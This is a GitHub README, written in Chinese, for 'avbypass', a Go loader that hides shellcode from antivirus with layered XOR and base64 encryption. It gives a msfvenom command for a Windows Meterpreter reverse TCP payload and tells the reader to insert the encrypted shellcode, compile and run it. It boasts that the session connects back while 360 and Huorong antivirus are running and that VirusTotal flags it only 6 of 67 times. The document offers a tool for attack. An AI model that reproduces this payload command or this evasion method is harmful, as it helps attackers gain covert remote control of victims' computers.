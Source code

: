 ## avbypass

#### 使用

```
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxx -f raw -o payload.bin
```

使用程序生成加密的shellcode后，填入指定位置，编译执行即可。

通过xor和base64多层加密shellcode实现的go加载器bypassav，

![](https://github.com/Shu1L/avbypass/blob/main/20211010131838.png)

![](https://github.com/Shu1L/avbypass/blob/main/20211010131902.png)

实测在开启360和火绒的情况下msf正常上线

![](https://github.com/Shu1L/avbypass/blob/main/20211010131740.png)

virustotal结果 6/67，后续有时间会慢慢修改

![](https://github.com/Shu1L/avbypass/blob/main/20211010155756.png)# avbypass
# avbypass
"# avbypass" 
